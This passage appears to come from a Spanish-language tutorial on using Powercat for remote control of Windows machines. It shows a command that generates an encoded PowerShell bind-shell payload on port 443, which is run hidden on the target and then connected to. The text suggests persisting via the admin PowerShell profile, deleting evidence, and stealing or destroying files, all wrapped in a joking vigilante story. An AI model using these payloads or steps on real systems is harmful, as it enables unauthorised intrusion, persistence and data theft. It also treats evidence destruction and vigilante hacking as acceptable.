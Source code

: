 Para hacerlo, tendremos que generar un payload desde Powercat. En nuestro caso, el payload es una shellcode encodeada, sin más. El payload dejará un servidor en el puerto 443, que le dará el control de la PowerShell al atacante. Para ello, hacemos:

```powershell
powercat –l –p 443 –ep –ge > Payload.txt
```

En este comando usamos dos flags nuevos:
- *-ep*: Significa "Execute PowerShell". Al conectar al servidor, en lugar de servir un archivo, una variable o la entrada del teclado, directamente sirve la PowerShell que está ejecutando Powercat.
- *-ge*: Significa “Generate Encoded”. En lugar de ejecutar el comando, Powercat generará una shellcode encodeada que ejecute el comando dicho. Existe una diferencia fundamental entre encodear este shellcode y utilizar el flag: La shellcode encodeada que genera Powercat funciona incluso si Powercat no está instalado. Esto significa que, si por casualidad se utilizase una PowerShell con acceso de administrador, se podría incluir en el perfil por defecto y ejecutarse con cada inicio, por lo que se podría controlar eternamente ese ordenador.

Volvemos a hacer lo que hacemos siempre: Pasamos el payload al otro ordenador con Powercat y lo ejecutamos en oculto.

Ahora que está ejecutando en oculto, nos volvemos a conectar a la misma IP, utilizando como puerto el 443. Es decir:

```powershell
powercat –c 0.0.0.0 –p 443
```

(Nota: Si no te sale nada, machaca Enter como un mono, pero desde el ordenador que estás usando ahora, no el atacado. Por algún extraño motivo, funciona.)

Al hacerlo, nos aparecerá el texto de una nueva sesión de PowerShell. Salvo por una cosa: No tenemos autocompletado con el tabulador, y eso duele, MUCHO. Pero es lo que tiene usar un programa de depuración de aplicaciones web para tomar control de ordenadores, que funciona raro.

Ahora que tienes acceso al PC, borras el archivo de texto que generó el script para no dejar pruebas. Haces ``ls``, y descubres que entre las demás carpetas (Desktop, Documents...), tiene una llamada Evil Deeds. Lo típico, ¿no? Vas a tu PC y tienes Mis documentos, Mis imágenes, Mi música y Mis asuntos turbios. Es lo que hace todo el mundo. Además, la ISO tiene un estándar de "malo que se ve desde China que es malo" que te obliga a hacer eso si eres malo.

Abres la carpeta de Evil Deeds y descubres dos archivos: `Cuentas ilegales.txt` y `Pornografía infantil.png`. Lo dicho: El tío es malo obviamente, pero al menos es un malo obvio de calidad certificada por la ISO.

(Si tienes curiosidad: `Cuentas ilegales.txt` en mi prueba era la frase "Soy demasiado vago para ponerle contenido de verdad" copypasteada hasta llegar a 8 MB y `Pornografía infantil.png` era un fondo de pantalla de los Phantom Thieves of Hearts de Persona 5).

Ahora que sabes al 100% que es malo, echas una captura de los archivos y se los borras. Por último, le dejas una nota: *"This data has been stolen by the Phantom Thieves of Hearts"*. Una vez hecho eso, haces exit y te sales por completo.

Efectivamente, el malo flipará en colores.

#### Potencial de esta prueba

Infinito. Puedes hacer la primera prueba. Si pillas una PowerShell de admin, puedes hacer la segunda. Puedes [cambiarle el fondo de escritorio](https://social.technet.microsoft.com/Forums/windows/es-ES/72a9b4bf-071b-47cd-877d-0c0629a9eb90/how-change-the-wallpaperbackground-with-a-command-line-?forum=w7itproui "Cosas malignas"), puedes borrarle archivos importantes, puedes ejecutarle programas, puedes ver sus archivos, puedes instalarle Powercat para enviar sus archivos a tu PC... Todo lo que permita hacer PowerShell, que viene a ser todo lo que se puede hacer con un ordenador, lo puedes hacer.
